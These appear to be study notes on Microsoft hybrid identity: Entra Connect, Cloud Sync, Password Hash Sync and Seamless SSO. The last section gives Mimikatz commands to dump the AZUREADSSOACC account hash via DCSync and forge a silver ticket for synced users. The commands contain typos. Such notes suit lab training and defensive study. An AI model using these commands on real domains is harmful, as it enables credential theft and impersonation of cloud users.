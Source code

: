 - organizations have resource, devices and applications both on-premises and in the cloud
- Many enterprises use their on-prem AD identities to access Azure applications to avoid managing separate identities on both
- "A signle user identity for authentication and authorization to all resource, regardless of location is hybrid identity"
` https://learn.microsoft.com/en-us/entra/identity/hybrid/whatis-hybrid-identity`

# Entra Connect
- An on-prem AD can be integrated with Entra ID using Entra Connect with the following methods. Every method supports Single Sign-On(SSO)
	- Password Hash Sync (PHS)
	- Pass-Through Authentication
	- Federation
- for each method, at least the user synchronization is done and an account `MSOL_<installationIdentifier>` is created on the on-prem AD.

# Cloud Sync
- Cloud Sync can also be used for Hybrid Identity
- it uses a 'lightweight' agent in place of the Entra Connect Application
- Cloud Sync doesn't support PTA
- Comparison between Entra Connect and Cloud Sync
`https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync#comparison-between-microsoft-entra-connect-and-cloud-sync`

# Password Hash Sync(PHS) 
- it syncs users and a hash of their password hashes (not clear-text or original hashes) from on-prem to Entra ID
- the simplest and most popular method for getting a hybrid identity
- PHS is required for features like Identity Protection and AAD Domain Services
- Hash synchronization takes place every 2 minutes
- When a user tries to access any Azure resource, the authentication takes place on Entra ID
- built-in security groups are not synced
- by default, password expiry and account expiry are not reflected in Entra ID. That means a user whose on-prem password is expired can continue to access Azure resources using the old password

# Seamless SSO
- Entra Seamless SSO automatically signs users in when they are on on-prem domain-joined machine. There is no need to use passwords to log in to Entra ID and on-prem applications 
- supported by both PHS and PTA 
- When seamless SSO is enabled a computer account AZUREADSSOACC is created in the on-prem AD. This account's Kerberos decryption key is shared with Entra ID
- Entra ID exposes an endpoint (`https://autologon.microsoftazuread-sso.com`) that accepts Kerberos Tickets. Domain-joined machines's browser forwards the ticket to this endpoint for SSO.

### AZUREADSSOSCC - On-Prem to Cloud
- password/key of the AZUREADSSOACC never changes 
- if we can compromise the NTLM hash of the AZUREADSSOACC machine account, we can create Silver Ticket for any synced on-prem user
` Invoke-Mimikatz -Command '"lasdump::dcsync /user:defeng\azureasssoacc$ /domain:defeng.corp /dc:defeng-dc.defeng.corp `
- we just need the userPrinicpalName and SID of the user to create the Silver ticket that can be used from any machine connected to the internet. 
` Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:defeng.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt`
- the lab environment(for both PHS and PTA) uses different UPN prefixes for on-prem and Azure domain so the SSO will not work. 

`https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/`